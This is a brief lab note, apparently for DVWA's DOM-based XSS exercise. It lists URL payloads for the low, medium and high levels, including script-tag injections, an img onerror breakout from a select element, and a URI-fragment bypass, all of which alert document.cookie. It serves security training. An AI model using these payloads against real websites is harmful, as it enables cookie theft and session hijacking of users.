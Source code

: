 # XSS-DOM 
Difficulty: Low

/?default=English<script>alert(document.cookie)</script>          </br>
/?default=English<script>alert(1)</script>                        </br>

Difficulty: Medium

Read help & source. Also, ispect Language select section.                                 </br>
/?default=<select><img title=<img src onerror=alert(document.cookie)></select>            </br>
/?default=<select><img src/onerror=alert(document.cookie)></select>                       </br>
Res: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet                </br>

Difficulty: High

/?#default=<script>alert(document.cookie)</script>                    [# URI fragments is not sent to the server by the browser] </br>
Res: https://owasp.org/www-community/attacks/DOM_Based_XSS#:~:text=Definition,in%20an%20%E2%80%9Cunexpected%E2%80%9D%20manner.


